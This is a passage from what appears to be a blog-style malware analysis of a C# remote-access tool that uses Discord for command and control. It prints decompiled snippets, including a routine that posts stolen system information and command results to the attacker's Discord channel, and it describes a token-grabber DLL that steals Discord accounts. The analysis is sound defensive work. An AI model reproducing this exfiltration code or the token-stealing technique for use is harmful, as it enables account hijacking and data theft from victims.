```csharp
        case "CHANNEL_DELETE":
          ...
        default:
          return;
      }
  ...
}
```

{: file="malware.cs"}

### Web Connection

Aside from the Discord Gateway, there is also a connection to the standard
Discord REST API. This one is used to communicate system information and
command execution results to the attacker's Discord server. This API is also
used by the malware to generate new channels on the attacker's server. It could
be to improve the separation of communications and targets. As a result, the
attacker included his Discord server's ID inside the malware, which can be
located in the file `settings.cs`. According to my research, you should be able
to identify the Discord server using that ID, however because the attacker's
server is private, you won't be able to find it unless you work for Discord.

```csharp
public static async Task<bool> Send_message(string channelid, string message)
{
  string requestUri = string.Format("https://discord.com/api/v9/channels/{0}/messages", (object) channelid);
  ...
  try
  {
    HttpResponseMessage httpResponseMessage = await httpClient.PostAsync(requestUri, (HttpContent) content);
    httpResponseMessage.EnsureSuccessStatusCode();
    string str = await httpResponseMessage.Content.ReadAsStringAsync();
    httpClient.Dispose();
    return true;
  }
  ...
}
```

{: file="malware.cs"}

### Discord Token Stealer

The malware loads many `.dll` files from GitHub to further increase its
capabilities without increasing the infection's size. I already found those in
static analysis. This section addresses the `Token%20grabber.dll` file. After
gaining control of the victim's computer, the attacker would like to hijack the
victim's Discord account. Fortunately, the source code for this file was also
included in the GitHub repository. Multiple base64 encoded `strings` can be found
within the source code. They appear to be separate windows paths.
